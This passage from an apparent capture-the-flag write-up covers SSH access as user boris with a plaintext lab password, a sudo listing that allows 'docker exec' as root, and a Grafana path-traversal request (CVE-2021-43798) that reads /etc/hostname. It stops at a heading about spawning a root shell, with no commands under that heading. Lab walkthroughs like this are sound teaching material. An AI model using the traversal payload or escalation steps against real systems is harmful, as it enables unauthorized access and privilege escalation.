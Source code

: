 ### 8. SSH into the Host

```bash
ssh boris@$ip
# Enter password: beautiful1
```

### 9. Capture the User Flag

```bash
cat /home/boris/user.txt
```


## root.txt

We already had access to the machine as user `boris`, having retrieved `user.txt`. Now we aim to escalate to root by abusing a Docker misconfiguration.

### 1. Enumerate `sudo` Rights

```bash
sudo -l
```

Output:

```
User boris may run the following commands on localhost:
    (root) NOPASSWD: /snap/bin/docker exec *
```

This tells us that `boris` can run any `docker exec` command as root without a password, but **only** `docker exec`, not other Docker commands.


### 2. Use Grafana LFI to Leak Hostname (Docker Container ID)

From our prior Grafana LFI (CVE-2021-43798), we use the following request to read `/etc/hostname`, which reveals the container ID:

```
GET /public/plugins/mysql/../../../../../../../../../../../etc/hostname HTTP/1.1
Host: 10.129.254.162:3000
```

Output:

```
e6ff5b1cbc85
```

This matches the container name.


### 3. Spawn a Root Shell Inside the Container
